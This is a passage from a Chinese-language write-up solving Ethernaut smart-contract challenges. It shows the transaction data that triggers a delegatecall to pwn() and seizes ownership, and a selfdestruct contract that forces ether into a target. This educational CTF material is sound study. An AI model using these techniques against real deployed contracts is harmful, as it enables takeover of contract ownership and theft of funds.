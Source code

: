        constructor(address _delegateAddress) {
         delegate = Delegate(_delegateAddress);
         owner = msg.sender;
       }
     
       fallback() external {
         (bool result,) = address(delegate).delegatecall(msg.data);
         if (result) {
           this;
         }
       }
     }
     
     ```

     >   在以太坊智能合约中，delegatecall是一种特殊的函数调用方式。它允许一个合约调用另一个合约的函数，但是在执行过程中，被调用的函数的上下文（如msg.sender、msg.value、storage等）会被替换成调用者合约的上下文。

     所以只需要让 `delegatecall`调用 `pwn()`即可

     data前四个字节为函数选择器,由 `Keccak hash`得到

     ![image-20230409235821280](https://gitee.com/leiye87/typora_picture/raw/master/20230409235823.png)

     而后四个字节由参数决定,但是pwn为无参函数,所以取前八位

     ```js
     contract.sendTransaction({data:"0xDD365B8B"})
     ```

     sendTransaction->fallback->delegatecall->pwn

8.   **Force**

     ```solidity
     
     ```

     *   让合约里的余额>0

         但是合约为空,不存在 payable函数,但是存在一些方法强制让合约获取到我们的以太币,如`selfdestruct`

         >   `selfdestruct()`是一种销毁智能合约并将其以太币余额发送到给定地址的特殊方法。如果我们创建一个带有调用函数的合约，`selfdestruct()`并将`Force.sol`实例地址作为其接收者，向它发送一些 eth，然后调用 destruct 合约，您将向我们的目标合约发送以太币。

         ```solidity
         pragma solidity ^0.8.0;
         contract solve{
             uint public balance=0;
             function despoit() external payable{
                 balance+=msg.value;
             }
             function destruct(address payable _to) external payable{
                 selfdestruct(_to);
             }
         }
         ```
